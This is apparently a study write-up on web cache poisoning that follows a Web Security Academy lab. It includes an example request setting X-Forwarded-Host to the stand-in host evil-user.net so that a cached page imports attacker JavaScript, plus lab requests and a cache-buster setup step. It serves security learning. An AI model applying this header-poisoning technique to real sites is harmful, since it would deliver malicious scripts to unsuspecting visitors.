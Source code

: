 ### Using web cache poisoning to exploit unsafe handling of resource imports
Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as externally hosted JavaScript files. In this case, if an attacker changes the value of the appropriate header to a domain that they control, they could potentially manipulate the URL to point to their own malicious JavaScript file instead.

If the response containing this malicious URL is cached, the attacker's JavaScript file would be imported and executed in the browser session of any user whose request has a matching cache key. 
```bash
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

### PRACTITIONER Lab: Web cache poisoning with an unkeyed header
The main idea is to find a header that is not included in the cache key, and the value of that header must be reflected in the response on a page that can be cached

We have the request, response of which is stored in the caching server:
```bash
GET / HTTP/2
Host: 0af7001b03b35e6b846c50ff00aa0052.web-security-academy.net
Cookie: session=MRmq8tYlBPTP2VvotLEbcZ7LniTGPZh9
```

In the response we get:
```bash
    <body>
        <script type="text/javascript" src="//0af7001b03b35e6b846c50ff00aa0052.web-security-academy.net/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
            ...
```

Now we need to figure out if we can change the response by adding some additional headers
To do that we can use Param Miner (see above) but before we use param miner it's important to add a cache buster to our requests, because in case of a successful cache poisoning we don't want other users to spot the poisoned cache right away

So we add a cache buster to our request:
```bash
GET /?abc=1234 HTTP/2
Host: 0a63008f037e438485615d08005100ad.web-security-academy.net
```

And we see that the response is cached, which means we can use this cache buster in web cache poisoning tests:
```bash
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 10961
```

